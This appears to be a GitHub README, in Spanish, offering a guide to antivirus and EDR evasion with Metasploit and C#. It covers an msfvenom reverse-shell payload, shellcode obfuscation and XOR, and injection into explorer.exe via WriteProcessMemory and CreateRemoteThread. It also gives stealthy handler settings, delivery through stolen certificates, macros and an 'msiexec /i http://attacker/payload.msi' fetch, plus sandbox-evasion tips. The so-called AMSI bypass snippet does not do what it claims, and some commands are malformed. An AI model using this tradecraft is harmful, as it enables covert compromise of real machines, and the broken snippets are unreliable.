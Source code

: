 # JumpCode

### **Guía de Evasión de AV con Metasploit + Visual Studio Code**

![image](https://github.com/90l3m0np13/JumpCode/blob/main/Portada.jpeg)

#### **1. Generación del Payload (Ocultamiento Básico)**
```bash
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.X LPORT=5555 -f csharp
```
▸ **Mejora clave**:  
• Codifica 3 veces con `-e x86/shikata_ga_nai -i 3`  
• Usa payloads menos comunes: `windows/x64/meterpreter/reverse_https`  
• Añade nops: `-n 22`  

#### **2. Ofuscación del Shellcode**
```csharp
// Conversión a formato ofuscado (ejemplo real)
string payload = "*fc*e8*82...*d5";  // 1. Eliminar "0x", 2. Reemplazar con "*", 3. Quitar comas
``
▸ **Técnicas avanzadas**:  
• **Split inteligente**:  
```csharp
string[] hexParts = payload.Split(new[] { '*' }, StringSplitOptions.RemoveEmptyEntries);
```  
• **Cifrado XOR**: Añade capa de cifrado simple con clave aleatoria  

#### **3. Implementación en Visual Studio (Trucos Anti-EDR)**
```csharp
// Técnica de asignación memorya dinámica
IntPtr mem = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);

// Inyección en proceso legítimo (ej. explorer.exe)
IntPtr hProcess = OpenProcess(0x1F0FFF, false, targetPID);
WriteProcessMemory(hProcess, mem, shellcode, shellcode.Length, out _);
CreateRemoteThread(hProcess, IntPtr.Zero, 0, mem, IntPtr.Zero, 0, IntPtr.Zero);
```

#### **4. Configuración del Handler (Stealth Mode)**
```bash
msf6 > set EnableStageEncoding true
msf6 > set StageEncoder x64/zutto_dekiru
msf6 > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0)"
msf6 > set ExitOnSession false
```
#### **5. Abrir Msfconsole en la máquina atacante**
````bash
msfconsole
msfconsole /multi/handler
msfconsole(/multi/handler)> use/windows/shell/reverse_tcp
````
#### **6. Ejecutar el payload**
*Configurar el lhost y lport y finalmente lanzar el exploit*

![image](https://github.com/90l3m0np13/JumpCode/blob/main/JumpCode.png)

#### **7. Finalmente abrir el scrip malicioso en la máquina atacada**

![image](https://github.com/90l3m0np13/JumpCode/blob/main/shell.png)

#### **5. Técnicas de Entrega (Bypass SmartScreen)**
• **Firma digital**: Usa signtool con certificados robados/auto-firmados  
• **Plantillas Office**: Incrusta en macros (usar nombres de funciones ofuscados)  
• **LOLBAS**: Ejecución via `msiexec.exe /i http://attacker/payload.msi`  

---

### **Tabla Comparativa: Técnicas vs Eficacia**

| Técnica                  | Detección AV | Dificultad | Eficacia |
|--------------------------|--------------|------------|----------|
| Shellcode crudo          | Alta         | Baja       | 20%      |
| Ofuscación básica (*)    | Media        | Media      | 45%      |
| + XOR Encryption         | Baja         | Alta       | 75%      |
| + Inyección en procesos  | Muy baja     | Alta       | 90%      |

---

### **Recomendaciones Clave**
1. **Sleep() es tu amigo**:  
   ```csharp
   Thread.Sleep(new Random().Next(2000, 5000)); // Evita sandboxes
   ```  
2. **API Hashing**: Resuelve APIs dinámicamente con:  
   ```csharp
   [DllImport("kernel32")] static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
   ```  
3. **AMSI Bypass**: Incluye este código al inicio:  
   ```csharp
   var amsi = (new[] { 'A','m','s','i','S','c','a','n','B','u','f','f','e','r' });
   IntPtr ptr = VirtualAlloc(IntPtr.Zero, (uint)amsi.Length, 0x1000, 0x40);
   Marshal.Copy(amsi, 0, ptr, amsi.Length);
   ```
   ### **Flujo de Evasión Avanzado**
```mermaid
graph TD
    A[Generar Payload] --> B[Encoder + Packer]
    B --> C[Ofuscación en C#]
    C --> D[Inyección en Proceso]
    D --> E[C2 con HTTPS]
    E --> F[Limpieza de Artefactos]
```
